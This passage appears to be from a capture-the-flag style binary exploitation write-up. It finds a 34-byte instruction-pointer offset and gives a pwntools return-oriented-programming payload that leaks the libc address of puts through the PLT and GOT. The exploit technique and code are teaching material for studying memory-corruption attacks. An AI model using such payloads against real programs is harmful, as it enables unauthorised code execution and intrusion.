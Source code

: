 ![gdb-2](./images/gdb-2.png)

We find that the offset to control the Instruction Pointer is `34` bytes of input.



**Leaking the address of a libc function**

We make use of `pwntools` - a very cool python library. Since the executable is not a PIE, we can make use of the `puts` function entries in the `.plt` and `.got` tables to leak it's address. We also need to make use of a gadget `pop rdi; ret` that can be found using famous tools like `ropper` or `RopGadget.py`. You can read more about gadget by searching about Return Oriented Programming. The gadget used above just places the address of the libc `puts` function present in the Global Offset Table into the `rdi` register which we then use as an argument in the `plt.puts` call, which ultimately returns back to main after leaking the address.

```python
offset = 34  # IP offset
pop_rdi = 0x401313

payload = flat({
  offset: [
    pop_rdi,
    elf.got.puts,
    elf.plt.puts,
    elf.symbols.main # this is so that we return back to main after using the original main call to leak puts address
  ]
})

# Send the payload
io.recv()
io.send(payload)
```
